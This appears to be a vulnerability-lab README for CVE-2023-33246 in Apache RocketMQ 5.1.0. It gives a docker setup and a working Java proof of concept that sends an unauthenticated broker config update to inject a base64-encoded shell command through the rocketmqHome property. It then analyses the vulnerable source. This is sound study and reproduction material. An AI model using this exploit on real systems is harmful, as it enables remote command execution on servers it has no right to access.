

# Apache RocketMQ Remote Command Execution (CVE-2023-33246)

[中文版本(Chinese version)](README.zh-cn.md)

RocketMQ is a distributed messaging and streaming platform with low latency, high performance and reliability, trillion-level capacity and flexible scalability.

For RocketMQ versions 5.1.0 and below, under certain conditions, there is a risk of remote command execution. Several components of RocketMQ, including NameServer, Broker, and Controller, are leaked on the extranet and lack permission verification, an attacker can exploit this vulnerability by using the update configuration function to execute commands as the system users that RocketMQ is running as. Additionally, an attacker can achieve the same effect by forging the RocketMQ protocol content. To prevent these attacks, users are recommended to upgrade to version 5.1.1 or above for using RocketMQ 5.x or 4.9.6 or above for using RocketMQ 4.x.

References:

- <https://lists.apache.org/thread/1s8j2c8kogthtpv3060yddk03zq0pxyp>
- <https://github.com/I5N0rth/CVE-2023-33246>

## Start

Use following command to start a RocketMQ 5.1.0:

```shell
docker compose up -d
```

## Exploit

Use `IDEA` , `Eclipse` or `IDE` to create a new `Maven` project, import dependency:

```xml
<dependencies>
    <!-- https://mvnrepository.com/artifact/org.apache.rocketmq/rocketmq-tools -->
    <dependency>
        <groupId>org.apache.rocketmq</groupId>
        <artifactId>rocketmq-tools</artifactId>
        <version>5.1.0</version>
    </dependency>
</dependencies>
```

PoC：

```java
package org.example;

import org.apache.rocketmq.client.exception.MQClientException;
import org.apache.rocketmq.tools.admin.DefaultMQAdminExt;
import java.util.Base64;
import java.util.Properties;

public class App {
    public static void main(String[] args) throws Exception {
        String targetHost = "your-ip";
        String targetPort = "10911";

        String targetAddr = String.format("%s:%s",targetHost,targetPort);
        Properties props = new Properties();
        props.setProperty("rocketmqHome", getCmd("touch /tmp/success"));
        props.setProperty("filterServerNums", "1");
        DefaultMQAdminExt admin = new DefaultMQAdminExt();
        admin.setNamesrvAddr("0.0.0.0:12345");
        admin.start();
        admin.updateBrokerConfig(targetAddr, props);
        Properties brokerConfig = admin.getBrokerConfig(targetAddr);
        System.out.println(brokerConfig.getProperty("rocketmqHome"));
        System.out.println(brokerConfig.getProperty("filterServerNums"));
        admin.shutdown();
    }

    private static String getCmd(String cmd) {
        String cmdBase = Base64.getEncoder().encodeToString(cmd.getBytes());
        return "-c $@|sh . echo echo \"" + cmdBase + "\"|base64 -d|bash -i;";
    }
}

```

After the console successfully outputs the new configuration, please wait for about 30 seconds and the `touch /tmp/success` has been executed:



## Simple Analysis

Why modify the `filterServerNums` property: If the configured `filterServerNums` is 0, the calculated `more` will also be 0, so it is not possible to enter the `callShell` method to execute commands.

```java
public void createFilterServer() {
    int more =
        this.brokerController.getBrokerConfig().getFilterServerNums() -
        this.filterServerTable.size();
    String cmd = this.buildStartCommand();
    for (int i = 0; i < more; i++) {
        FilterServerUtil.callShell(cmd, log);
    }
}

public static void callShell(final String shellString, final Logger log) {
    Process process = null;
    try {
        String[] cmdArray = splitShellString(shellString);
        process = Runtime.getRuntime().exec(cmdArray);
        process.waitFor();
        log.info("CallShell: <{}> OK", shellString);
    } catch (Throwable e) {
        log.error("CallShell: readLine IOException, {}", shellString, e);
    } finally {
        if (null != process)
            process.destroy();
    }
}
```

Why modify the `rocketmqHome` attribute: When building a command, the `splitShellString` method is ultimately called to split the parameters according to spaces. Therefore, it cannot be a `NamesrvAddr` parameter, but can only be the starting `rocketmqHome` parameter. However, due to parameter segmentation rules, stricter commands and clever techniques are required to execute.

```java
private String buildStartCommand() {
    String config = "";
    if (BrokerStartup.CONFIG_FILE_HELPER.getFile() != null) {
        config = String.format("-c %s",
        BrokerStartup.CONFIG_FILE_HELPER.getFile());
    }
    if (this.brokerController.getBrokerConfig().getNamesrvAddr() != null) {
        config += String.format(" -n %s",
        this.brokerController.getBrokerConfig().getNamesrvAddr());
    }
    if (NetworkUtil.isWindowsPlatform()) {
        return String.format("start /b %s\\bin\\mqfiltersrv.exe %s",
        this.brokerController.getBrokerConfig().getRocketmqHome(),
        config);
    } else {
        return String.format("sh %s/bin/startfsrv.sh %s",
        this.brokerController.getBrokerConfig().getRocketmqHome(),
        config);
    }
}
```
